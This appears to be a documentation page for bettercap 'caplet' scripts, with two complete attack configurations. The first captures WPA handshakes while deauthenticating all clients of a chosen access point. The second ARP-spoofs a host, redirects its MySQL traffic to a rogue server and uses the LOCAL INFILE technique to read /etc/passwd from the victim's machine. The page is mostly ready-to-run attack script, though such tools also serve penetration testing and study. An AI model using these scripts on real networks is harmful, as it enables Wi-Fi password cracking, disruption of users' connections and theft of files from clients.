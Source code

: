 #### wpa\_handshake.cap

Use various modules to inject wifi frames performing a deauthentication attack, while a sniffer is waiting for WPA handshakes.

```
# swag prompt for wifi
set $ {by}{fw}{env.iface.name}{reset} {bold}» {reset}

# Sniff EAPOL frames ( WPA handshakes ) and save them to a pcap file.
set net.sniff.verbose true
set net.sniff.filter ether proto 0x888e
set net.sniff.output wpa.pcap
net.sniff on

# since we need to capture the handshake, we can't hop
# through channels but we need to stick to the one we're
# interested in otherwise the sniffer might lose packets.
wifi.recon.channel 1

wifi.recon on

# uncomment to recon clients of a specific AP given its BSSID
# wifi.recon DE:AD:BE:EF:DE:AD

events.clear
clear

# now just deauth clients and wait ^_^
#
# Example:
#
# wifi.deauth AP-BSSID-HERE
#
# This will deauth every client for this specific access point,
# you can put it as ticker.commands to have the ticker module
# periodically deauth clients :D
```

#### rogue-mysql-server.cap

Execute an ARP spoofing attack against a single host and redirect the MySQL traffic to a rogue server. The rogue MySQL server will use the [LOCAL INFILE technique](https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html) to read files from the client.

```
# set the target for arp spoofing
set arp.spoof.targets 192.168.1.236

# bind rogue mysql server to localhost and
# set the file we want to read
set mysql.server.address 127.0.0.1
set mysql.server.port 3306
set mysql.server.infile /etc/passwd
mysql.server on

# set the ip from the mysql server we want to impersonate
set tcp.address 93.184.216.34
set tcp.port 3306

# set the ip from the rogue mysql server
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 3306

# go ^_^
tcp.proxy on
```